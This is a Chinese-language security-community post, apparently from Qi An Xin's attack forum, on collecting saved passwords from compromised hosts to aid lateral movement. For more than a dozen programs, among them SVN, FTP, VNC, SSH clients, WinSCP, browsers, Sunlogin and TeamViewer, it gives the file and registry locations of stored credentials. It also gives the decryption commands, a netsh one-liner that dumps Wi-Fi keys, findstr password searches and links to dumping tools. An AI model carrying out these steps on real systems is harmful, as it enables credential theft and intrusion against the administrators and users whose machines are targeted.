# 奇安信攻防社区 - 内网常见软件密码收集

### 内网常见软件密码收集

\## 0x00 前言 一般拿到服务器权限后，总需要收集一些运维或网管机子上的密码信息，方便后面横向渗透。 ## 0x01 获取 tortoiseSVN 连接密码 \`tortoiseSVN\`客户端连接记录文件位置：...

## 0x00 前言

一般拿到服务器权限后，总需要收集一些运维或网管机子上的密码信息，方便后面横向渗透。

## 0x01 获取 tortoiseSVN 连接密码

`tortoiseSVN`客户端连接记录文件位置：

`%userprofile%\AppData\Roaming\Subversion\auth\svn.simple`  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f4135dcb66972796e380f4932783f166bf009cde.png)  
文件内容：  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-b78bb1cf3281b76db3d0908b7afb86a3557a9ef9.png)  
解密方法，使用 TSvnPwd 获取密码：[http://www.leapbeyond.com/ric/TSvnPD/TSvnPwd.exe](http://www.leapbeyond.com/ric/TSvnPD/TSvnPwd.exe)  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-2e3e19b7dbdf6cb7eaef58e45f1ddfd0737a32e8.png)

## 0x02 获取 FlashFXP 连接密码

主要文件为 FlashFXP 安装目录下面的`Sites.dat`和`quick.dat`，`quick.dat`保存了快速连接的历史记录，`Sites.dat`保存了站点记录。  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-a1a78d9db9cd90cb6beb956803a2f4ad7a2dbc13.png)

-   解密方法

复制整个 FlashFXP 安装目录至本地，然后打开`flashfxp.exe`，点击快速连接->历史，可以看到历史连接记录，并且可以直接连接：  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-1edf4e873f8f950529174238cd14f280670cf23a.png)

点击站点管理器可以看到保存的连接记录：  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ed071fa80eada0d69e3b6683e3235691f20d45a4.png)

使用星号查看器可以直接看到明文密码：  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-cb913c18cae5d2b1c3a4f3e7f9f9ab89a5cf29b5.png)

-   解密方法 2

使用 FlashfxpPasswordDecryptor 破解密码：[https://www.cr173.com/soft/26711.html](https://www.cr173.com/soft/26711.html)  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f71f47a69359c3ae484adc77f632dd1c7d52e336.png)

## 0x03 获取 FILEZILLA 连接密码

FILEZILLA 客户端连接记录保存位置：

`%userprofile%\AppData\Roaming\FileZilla\recentservers.xml`

使用文本编辑器可以查看到账号密码，用 base64 解码即可（此处为 filezilla3）  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-1c75a20c79c237713e16048baf737f96dd8205cf.png)

## 0x04 获取 Serv-U 密码

获取 ServUDaemon.ini 文件：

`Serv-U一般安装目录位于“C:\program files\Serv-U\”`

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-1181a0506409b432ae4de5e5e3513d62294aa629.png)

密码破解，去掉前面两位字母然后到 md5 破解，全靠运气，密码也是去掉前面两位字母：  
[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-69a1f83478e0851bb101c7f238ed83bd6a12a563.png)

## 0x05 获取 VNC 连接密码

-   TightVNC
    
    注册表位置：
    
    `reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v Password`  
    `reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v PasswordViewOnly`
    
    TightVNC version 2.8.X 位置：  
    `reg query HKLM\SOFTWARE\TightVNC\Server /s`
    

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-98915c5747fb510cba0bffcd5e13026318b1db0a.png)

vncpwdump 破解密码：[http://www.cqure.net/tools/vncpwdump-win32-1\_0\_6.zip](http://www.cqure.net/tools/vncpwdump-win32-1_0_6.zip)

`vncpwdump.exe -k 78xxxxxxxx7`

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-30f3e86eb940b23c5b2b616f27af213daf7de9b2.png)

-   RealVNC
    
    注册表位置：  
    `HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver`  
    `3.x 在 HKEY_CURRENT_USER\Software\ORL\WinVNC3\Password ===windows 95`  
    `3.x 在 HKEY_LOCAL_MACHINE\SOFTWARE\ORL\WinVNC3\Default\Password ===Win NT`  
    `4.x 在 HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 ===WinXP or Win2003`  
    `5.x 在 HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver ===WinXP or Win2003`
    
-   TigerVNC
    
    注册表位置：  
    `HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4`
    
-   UltraVNC  
    配置文件位置：  
    `C:\Program Files\UltraVNC\ultravnc.ini`
    

## 0x06 获取 xshell 记录密码

sessions 文件位置：

`XShell5 %userprofile%\Documents\NetSarang\Xshell\Sessions`  
`XFtp5 %userprofile%\Documents\NetSarang\Xftp\Sessions`  
`XShell6 %userprofile%\Documents\NetSarang Computer\6\Xshell\Sessions`  
`XFtp6 %userprofile%\Documents\NetSarang Computer\6\Xftp\Sessions`

使用 Xdecrypt 破解 xshell 保存的密码：[https://github.com/dzxs/Xdecrypt](https://github.com/dzxs/Xdecrypt)

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-beb1b2356f6f824fea3f6f0fa687ace084dd3159.png)

## 0x07 获取 SecureCRT 记录密码

SecureCRT ini 文件位置

`%userprofile%\AppData\Roaming\VanDyke\Config\Sessions\`

密码解密，获取 ini 文件中 Password V2 后面的值，去掉 02：

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f7ca97e817ca65024a20634371d808d778efd17c.png)

`python3 securecrt_password.py dec -v2 f83b09599d3e129xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxe7853c52`

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-091c5ffa28d29da69f9327cb537020e141fa573e.png)

## 0x08 获取 winscp 记录密码

默认注册表位置：

`shell reg query "HKEY_USERS\S-1-5-21-****\Software\Martin Prikryl\WinSCP 2\Sessions\root@192.168.190.137" /s`  
`HKEY_USERS\SID\Software\Martin Prikryl\WinSCP 2\Sessions\`

WIN7\\8下 WinSCP 文件默认位置：

`%userprofile%\AppData\Local\VirtualStore\Program Files (x86)\WinSCP\WinSCP.ini （64位操作系统）`  
`C:\Program Files (x86)\WinSCP\WinSCP.ini （64位操作系统）`  
`%userprofile%\AppData\Local\VirtualStore\Program Files\WinSCP\WinSCP.ini （32位操作系统`  
`C:\Program Files\WinSCP\WinSCP.ini （32位操作系统）`

winscppwd 破解密码：[https://bitbucket.org/knarf/winscppwd/downloads/winscppwd.exe](https://bitbucket.org/knarf/winscppwd/downloads/winscppwd.exe)

`winscppwd.exe winscp.ini`

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-96412466f68faf21627fdedb310ebc28b2557e24.png)

`winscppwd.exe root 10.1xx.x.213 A35C425xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx3B2B6D6F656B696965646E646F8D`

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f948ae8df55cc0bd1686b34269184f7fda171052.png)

## 0x09 获取浏览器信息

一键获取 HackBrowserData：[https://github.com/moonD4rk/HackBrowserData/](https://github.com/moonD4rk/HackBrowserData/)

`hack-browser-data.exe -b all -f json --dir results --cc`

浏览器各类文件地址：

（1）、google

```php
书签：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks
Cookie: %userprofile%\AppData\Local\Google\Chrome\User Data\Default\Cookies
浏览历史：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\History
当前的session：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Current
Session 账号密码：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Login
Data %userprofile%\AppData\Local\Google\Chrome\User Data\Profile 1\Login Data
```

（2）、QQ 浏览器

```php
⽤户数据⽬录：%userprofile%\AppData\Local\Tencent\QQBrowser\User Data\Default 
缓存⽬录：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Cache\ 
各⽂件如下： 
书签：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Bookmarks 
Cookie: %userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Cookies 
浏览历史：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\History 
当前的session：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\CurrentSession
账号密码：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Login 
Data或 %userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\xxxxxxxxxxx\6
```

（3）、360 浏览器

```php
`账号密码⽂件：%userprofile%\AppData\Roaming\360se6\User 
Data\Default\apps\LoginAssis\assis2.db`
```

（4）、Firefox

```php
`账号密码⽂件：
%userprofile%\AppData\Roaming\Mozilla\Firefox\Profiles\7s5izkwl.defaultrelease\logins.json`
```

## 0x10 获取向日葵密码

配置文件位置：

```php
安装版：C:\Program Files\Oray\SunLogin\SunloginClient\config.ini
便携版(绿色版)：C:\ProgramData\Oray\SunloginClient\config.ini
```

工具：[https://github.com/wafinfo/Sunflower\_get\_Password](https://github.com/wafinfo/Sunflower_get_Password)\\

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-6fe700c68f1edf25bebbdf80444950a9e83fcc00.png)

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-a4cb2dfcb7d3cc21722e26dcda59ec8491f15b68.png)

## 0x11 获取 wifi 连接密码

`for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear`

## 0x12 获取 FinalShell 连接密码

以 MAC 为例，Finalshell 保存密码的默认路径为：

`/Users/<yourhostname>/Library/FinalShell/conn`

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-31dca773de8632b2b86afb7c8fa27eef21e1a140.png)

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-8a0f1fc2d810567b39ede6aada0a64c6ec593e71.png)

FinalShellDecodePass 脚本解密：

`java FinalShellDecodePass <密文字符串>`

## 0x13 获取 teamview 连接密码

`teamviewer-dumper：https://github.com/attackercan/teamviewer-dumper`

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-207fab5285d3c0faa4ee76acdd73af5c2327dc01.png)

## 0x14 获取服务端明文存储密码

在一些配置文件或日志里，明文记录着敏感的密码信息，如 web.config、config.ini 等文件，可通过手动翻查敏感目录，也可以通过 findstr 命令来查找敏感文件和内容。

`findstr /i /s "password" *.config`  
`findstr /i /s "password" *.ini`  
`findstr /i /s "password" *.xml`

## 0x15 综合

LaZagnez 用于检索存储在本地计算机上的帐户密码的开源程序：  
[https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ff53cd9ff7b9627e74f30cd3bae33937043c6b9d.png)
